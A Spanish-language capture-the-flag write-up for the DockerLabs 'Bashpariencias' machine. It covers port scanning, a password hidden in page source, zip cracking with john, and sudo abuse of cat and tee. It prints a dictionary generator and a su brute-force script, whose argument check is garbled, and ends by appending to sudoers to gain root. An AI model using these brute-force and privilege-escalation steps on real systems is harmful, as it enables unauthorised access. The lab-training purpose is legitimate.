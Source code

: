 ```yaml
---
title: Bashpariencias - DockerLabs
published: true
categories: DockerLabs
---
```


| OS    | Dificultad | Creator    |
| ----- | ---------- | ---------- |
| Linux | Medio      | Firstatack |

## Escaneo y Reconocimiento de puertos

Vamos a iniciar nuestro reconocimiento con un rápido escaneo de nmap.

![imagen](https://github.com/romabri/romabri.github.io/assets/51706860/0108d083-1317-4f6c-a803-1015232037ad)

`nmap -p- --open -sS -sC -sV --min-rate=5000 -vvv -n -Pn -oN escaneo 172.17.0.2`
-  `-p-`: Escanea todos los puertos (1-65535).
- `--open`: Solo muestra los puertos abiertos.
- `-sS`: Realiza un escaneo SYN, que es rápido y discreto.
- `-sC`: Utiliza los scripts de reconocimiento por defecto de Nmap.
- `-sV`: Detecta la versión del servicio en los puertos abiertos.
- `--min-rate=5000`: Envía al menos 5000 paquetes por segundo, acelerando el escaneo.
- `-n`: No realiza resolución DNS.
- `-Pn`: No realiza ping previo para determinar si el host está activo.
- `-vvv`: Muestra resultados detallados y en tiempo real.

Vemos que esta abierto el puerto 8899 `SSH` y el puerto 80 `HTTP`

## Enumeración Web
Si accedemos a la pagina web vemos lo siguiente 

![imagen](https://github.com/romabri/romabri.github.io/assets/51706860/9ee65e73-bb29-4ebb-a03d-1a58250108c1)


Si investigamos muy a fondo la web vemos que en el apartado Form se esta exponiendo algo interesante.

![imagen](https://github.com/romabri/romabri.github.io/assets/51706860/a57129f1-51ce-478d-8eef-30af881a88fe)

Parece ser que nos esta dando un nombre vamos a revisar el codigo fuente y filtrar por ese nombre. (Siempre hemos de revisar el codigo fuente de la pagina ya que nos puede mostrar información como en este caso que esta oculta)

![imagen](https://github.com/romabri/romabri.github.io/assets/51706860/c43e754b-8255-40bb-b933-3a728a5f7515)

Vaya tenemos una posible contraseña para el usuario rosa.

Vamos a conectarnos por ssh que recordemos que esta en el puerto 8899 

![imagen](https://github.com/romabri/romabri.github.io/assets/51706860/683a3cc2-4a59-45e1-aa78-2360a8c4d89e)

Si vamos al directorio home vemos diferentes usuarios y un archivo txt, el archivo txt no tenemos permisos para verlo así que vamos al directorio de rosa

![imagen](https://github.com/romabri/romabri.github.io/assets/51706860/3a1f1b78-20fd-4efc-827e-e3f14e8cf5a8)

En el directorio de Rosa hay lo siguiente:

![imagen](https://github.com/romabri/romabri.github.io/assets/51706860/be0ea688-6ddf-41de-aafe-8fe78279e147)

Un directorio llamado -, vamos acceder

![imagen](https://github.com/romabri/romabri.github.io/assets/51706860/46a9e342-72ee-4e82-aaf5-af6b93bcc28b)

Nos encontramos con un txt y un zip vamos a leer el txt

![imagen](https://github.com/romabri/romabri.github.io/assets/51706860/e3524880-0923-4274-9fb1-92f32b0d5155)

Perfecto pues si intentamos extraer el zip tiene contraseña asi que vamos a intentar con john hacer fuerza burta a este zip de la siguiente forma.

```
- Nos descargamos el archivo a nestra maquina atacante con : python3 -m http.server 5000
- Desde nuestra maquina atacante hacemos un wget http://172.21.0.2/archivo
- Ahora vamos a extraer el hash del archivo zip con : zip2john archivo > hash
- Por ultimo vamos a craquear el hash con john --wordlist=/usr/share/wordlists/rockyou.txt hash
```


![imagen](https://github.com/romabri/romabri.github.io/assets/51706860/bfd136d4-790a-4da3-9ecc-eced6ec86652)

Hemos obtenido la contraseña vamos a descomprimir el zip

![imagen](https://github.com/romabri/romabri.github.io/assets/51706860/b1efd844-9f38-4e8b-8cff-fe19f695b7c3)

Ya tenemos la contraseña del usuario juan:hackwhitbash


Ahora vamos a escalar al usuario Juan y si hacemos sudo -l vemos que tenemos los binarios tree y cat que los podemos ejecutar como el usuario carlos.


![imagen](https://github.com/romabri/romabri.github.io/assets/51706860/2316f521-5fb5-4587-b080-80db9b4f202f)

Vamos a listar el directorio de carlos para ver si encontramos algo 

![imagen](https://github.com/romabri/romabri.github.io/assets/51706860/4ee27d0d-2df9-4ac0-8c51-6e58dbcd2ff2)

Encontramos un archivo llamado .misecreto.txt vamos hacer uso del binario cat con el usuario carlos para poder acceder a ese archivo.

![imagen](https://github.com/romabri/romabri.github.io/assets/51706860/4ef84a86-2475-41cb-bb1c-2601e7c9f4cb)

Lo que tendremos que hacer script que nos genere un diccionario para mas tarde hacer fuerza burta en local.

para el script del diccionario yo se lo he pedido a ChatGPT que me lo haga 

```
```bash  
#!/bin/bash  
  
# Definimos la palabra base  
palabra_base="chocolate"  
  
# Iteramos sobre cada letra del alfabeto en un orden diferente  
for letra1 in {a..z}; do  
   for letra2 in {a..z}; do  
       for letra3 in {a..z}; do  
           # Construimos la palabra utilizando un formato diferente  
           nueva_palabra="${letra1}${letra2}${letra3}${palabra_base}"  
           echo $nueva_palabra >> dict2.txt  
       done  
   done  
done
```

y el script para hacer fuerza bruta es el siguente que si no recuerdo mal es de el PinguinodeMario

```
#!/bin/bash  
  
# Función que se ejecutará en caso de que el usuario no proporcione 2 argumentos.  
mostrar_ayuda() {  
   echo -e "\e[1;33mUso: $0 USUARIO DICCIONARIO"  
   echo -e "\e[1;31mSe deben especificar tanto el nombre de usuario como el archivo de diccionario.\e[0m"  
   exit 1  
}  
  
# Para imprimir un sencillo banner en alguna parte del script.  
imprimir_banner() {  
   echo -e "\e[1;34m"  # Cambiar el texto a color azul brillante  
   echo "******************************"  
   echo "*     BruteForce SU         *"  
   echo "******************************"  
   echo -e "\e[0m"  # Restablecer los colores a los valores predeterminados  
}  
  
# Llamamos a esta función desde el trap finalizar SIGINT (En caso de que el usuario presione control + c para salir)  
finalizar() {  
   echo -e "\e[1;31m\nFinalizando el script\e[0m"  
   exit  
}  
  
trap finalizar SIGINT  
  
usuario=$1  
diccionario=$2  
  
# Variable especial $# para comprobar el número de parámetros introducido. En caso de no ser 2, se imprimen las instrucciones.  
if [[ $# != 2 | $ >  != 2 ]]; then  
   mostrar_ayuda  
fi  
  
# Imprimimos el banner al momento de realizar el ataque.  
imprimir_banner  
  
# Bucle while que lee línea a línea el contenido de la variable $diccionario, que a su vez esta variable recibe el diccionario como parámetro.  
while IFS= read -r password; do  
   echo "Probando contraseña: $password"  
   if timeout 0.1 bash -c "echo '$password' | su $usuario -c 'echo Hello'" > /dev/null 2>&1; then  
       clear  
       echo -e "\e[1;32mContraseña encontrada para el usuario $usuario: $password\e[0m"  
       break  
   fi  
done < "$diccionario"

```

Entonces con estas dos cosas en la maquina victima vamos hacer lo siguiente

![imagen](https://github.com/romabri/romabri.github.io/assets/51706860/1922dba9-0477-45d0-ab9a-a7d58b4ec480)

![imagen](https://github.com/romabri/romabri.github.io/assets/51706860/ccda5f03-ab4c-4a6d-85e9-167ed80bc720)

Ya tenemos la contraseña de carlos así que vamos a escalar a este usuario 

![imagen](https://github.com/romabri/romabri.github.io/assets/51706860/1d1cccd8-336e-4c4b-bc47-c3141d64ec82)

Vemos que carlos puede ejecutar el binario tee como cualquier usuario.

*El comando tee en sistemas Unix y Linux es una herramienta de línea de comandos que se utiliza para leer desde la entrada estándar (stdin) y escribir simultáneamente a la salida estándar (stdout) y a un archivo. Esto significa que puedes usar tee para ver la salida de un comando mientras también guarda esa salida en un archivo.

Como podemos usar tee como root vamos añadir a carlos al archivo sudoers para que podamos escalar a root sin proporcionar contraseña 

![imagen](https://github.com/romabri/romabri.github.io/assets/51706860/f52bd910-9457-43bc-b915-9c65a4bc5497)

Ya somos root
